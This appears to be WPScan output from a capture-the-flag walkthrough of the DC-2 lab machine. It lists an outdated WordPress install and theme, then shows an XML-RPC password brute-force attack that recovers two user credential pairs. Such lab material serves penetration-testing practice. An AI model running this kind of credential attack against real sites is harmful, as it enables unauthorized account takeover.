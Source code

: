 ```
 | Confidence: 100%

[+] http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-08-11T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.4
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <====================================================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing                                                                                                   
[SUCCESS] - tom / parturient                                                                                                     
Trying admin / the Time: 00:00:50 <==========================================================> (645 / 645) 100.00% Time: 00:00:50
Trying admin / log Time: 00:00:50 <==========================================================> (645 / 645) 100.00% Time: 00:00:50

[i] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up.

[+] Finished: Fri Nov 13 11:08:56 2020
[+] Requests Done: 699
```